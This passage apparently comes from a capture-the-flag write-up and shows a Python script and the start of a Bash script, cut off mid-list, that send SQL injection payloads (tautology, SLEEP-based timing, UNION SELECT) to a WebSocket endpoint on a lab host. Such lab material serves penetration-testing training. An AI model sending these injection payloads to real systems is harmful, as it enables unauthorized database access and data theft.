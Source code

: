 
## Automation Scripts

### Python WebSocket SQLi Script
```python
import websocket
import json
import time

def test_websocket_sqli(url, payloads):
    def on_message(ws, message):
        print(f"Response: {message}")
    
    def on_error(ws, error):
        print(f"Error: {error}")
    
    def on_close(ws, close_status_code, close_msg):
        print("Connection closed")
    
    def on_open(ws):
        print("Connected to WebSocket")
        for payload in payloads:
            data = json.dumps({"id": payload})
            print(f"Sending: {data}")
            ws.send(data)
            time.sleep(1)
        ws.close()
    
    ws = websocket.WebSocketApp(url,
                                on_open=on_open,
                                on_message=on_message,
                                on_error=on_error,
                                on_close=on_close)
    ws.run_forever()

# Usage
payloads = [
    "1",
    "1'",
    "1' OR '1'='1",
    "1' AND SLEEP(5)-- -",
    "1 UNION SELECT @@version-- -"
]

test_websocket_sqli("ws://target:9091", payloads)
```

### Bash Testing Script
```bash
#!/bin/bash

# WebSocket SQLi Testing Script
URL="ws://soc-player.soccer.htb:9091"

echo "Testing WebSocket SQL Injection"
echo "Target: $URL"

# Array of payloads to test
payloads=(
    "1"
    "1'"
    "1' OR '1'='1-- -"
    "92130 or 5=1-- -"
```